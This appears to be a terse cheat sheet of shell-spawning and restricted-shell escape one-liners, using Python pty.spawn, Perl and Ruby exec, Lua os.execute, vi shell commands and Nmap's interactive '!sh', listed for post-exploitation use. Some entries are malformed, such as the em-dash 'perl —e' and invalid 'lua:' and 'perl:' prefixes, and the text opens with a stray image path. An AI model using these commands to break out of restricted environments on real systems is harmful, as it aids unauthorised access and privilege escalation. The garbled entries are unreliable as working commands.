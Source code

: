 # Python3
## python3 -c "import pty;pty.spawn('/bin/bash')"
#
#
# Pyhon
## python -c 'import pty;pty.spawn("/bin/bash")'
#
#
# Echo
## echo os.system('/bin/bash')
#
#
# vi
## :set shell=/bin/bash:shell
#
#
# Lua
## lua: os.execute('/bin/sh')
#
#
# Perl
## perl —e 'exec "/bin/sh";'
#
#
# Perl
## perl: exec "/bin/sh";
#
#
# Ruby
## ruby: exec "/bin/sh"
#
#
# IRB
## exec "/bin/sh"
#
#
# sh
## /bin/sh -i
#
#
# vi
## :!bash
#
#
# Nmap
## !sh
